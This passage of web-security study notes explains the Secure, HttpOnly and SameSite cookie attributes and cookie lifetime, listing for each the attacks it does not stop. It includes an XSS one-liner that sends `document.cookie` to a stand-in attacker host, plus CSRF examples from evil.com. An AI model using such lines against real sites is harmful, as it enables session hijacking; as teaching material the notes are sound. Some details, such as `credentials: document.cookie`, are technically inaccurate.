   ```http
  HTTP/1.0 200 OK
  Set-Cookie: them=dark; Max-Age=2592000; Expires=Tue, 08 Mar 2022 14:02:19 GMT;
  ```

- `Secure`:

  - Only sends cookie to server when using **HTTPS scheme**
  - Avoid transmission over an insecure channel. Cannot set cookies with secure flag using HTTP
  - Protects against cookies being stolen by man in the middle attack
  - No protection against:

    - XSS: from `example.com` - `fetch('https://evil.example.com?val=' + document.cookie)`
    - CSRF: from `evil.com` - `fetch('https://example.com', { credentials: document.cookie })`
    - CSRF via HTML injection: `evil.com` - `<a href="https://example.com">click me</a>`

- `HttpOnly`:

  - Forbids JavaScript from accessing cookie
  - Don't let JavaScript read a cookie's value
  - Protects against cookies being stolen by XSS attack
  - No protection against:

    - CSRF: from `evil.com` - `fetch('https://example.com', { credentials: 'include' })`
    - CSRF via HTML injection: `evil.com` - `<a href="https://example.com">click me</a>`

- `SameSite`:

  - Cookie not sent with cross-site requests
  - Limited protection against CSRF
  - `SameSite=None`: Default, always send cookies
  - `SameSite=Lax`: Withhold cookies on sub-resource requests originating from other sites, allow them on top-level requests

    - Limited protection against cookies being used for CSRF attack
    - No protection against:

      - CSRF via HTML injection: `evil.com` --> `<a href="https://example.com">click me</a>`

  - `SameSite=Strict`: Only send cookies if the request originates from the website that set the cookie

    - Complete protection against cookies being used for CSRF attack

How long can cookies last?

- Sites can set `Expires` to a very far-future date and the cookie will last until the user clears it

  > "The Google Blog announced that Google will be shortening the expiration date of its cookies from the year 2038 to a 2-year life cycle."
  >
  > - Search Engine Land (2007)

::: tip NOTE
Cookies are bound to **sites**, not **origins**.
:::

## Session Management
